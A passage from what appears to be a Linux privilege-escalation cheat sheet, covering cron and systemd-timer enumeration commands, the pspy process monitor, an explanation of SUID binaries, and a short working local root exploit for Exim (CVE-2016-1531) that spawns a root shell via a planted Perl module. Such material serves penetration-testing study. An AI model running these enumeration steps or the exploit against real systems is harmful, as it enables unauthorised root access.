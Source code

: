 ```

crontab -l
ls -alh /var/spool/cron;
ls -al /etc/ | grep cron
ls -al /etc/cron*
cat /etc/cron*
cat /etc/at.allow
cat /etc/at.deny
cat /etc/cron.allow
cat /etc/cron.deny*

```

You can use  [pspy](https://github.com/DominicBreuker/pspy)  to detect a CRON job.

```
# print both commands and file system events and scan procfs every 1000 ms (=1sec)
./pspy64 -pf -i 1000
```

### Systemd timers

```
systemctl list-timers --all
NEXT                          LEFT     LAST                          PASSED             UNIT                         ACTIVATES
Mon 2019-04-01 02:59:14 CEST  15h left Sun 2019-03-31 10:52:49 CEST  24min ago          apt-daily.timer              apt-daily.service
Mon 2019-04-01 06:20:40 CEST  19h left Sun 2019-03-31 10:52:49 CEST  24min ago          apt-daily-upgrade.timer      apt-daily-upgrade.service
Mon 2019-04-01 07:36:10 CEST  20h left Sat 2019-03-09 14:28:25 CET   3 weeks 0 days ago systemd-tmpfiles-clean.timer systemd-tmpfiles-clean.service
```
&nbsp;

## 8] SUID

SUID/Setuid stands for “set user ID upon execution”, it is enabled by default in every Linux distributions. If a file with this bit is ran, the uid will be changed by the owner one. If the file owner is  `root`, the uid will be changed to  `root`  even if it was executed from user  `bob`. SUID bit is represented by an  `s`.

```
╭─local_host@kali ~  
╰─$ ls /usr/bin/sudo -alh                  
-rwsr-xr-x 1 root root 138K 23 nov.  16:04 /usr/bin/sudo

```

### Known Exploits

```echo [ CVE-2016-1531 local root exploit
cat > /tmp/root.pm << EOF
package root;
use strict;
use warnings;

system("/bin/sh");
EOF
PERL5LIB=/tmp PERL5OPT=-Mroot /usr/exim/bin/exim -ps
```
